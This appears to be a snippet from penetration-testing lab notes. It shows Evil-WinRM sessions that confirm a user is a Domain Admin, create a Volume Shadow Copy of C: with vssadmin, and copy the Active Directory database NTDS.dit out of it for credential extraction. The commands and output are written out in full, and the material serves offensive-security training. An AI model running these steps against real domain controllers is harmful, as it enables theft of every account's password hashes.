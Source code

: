## Checking User Account Privileges including Domain
```bash
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User s comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

## Creating Shadow Copy of C:
```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

## Copying NTDS.dit from the VSS
```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```
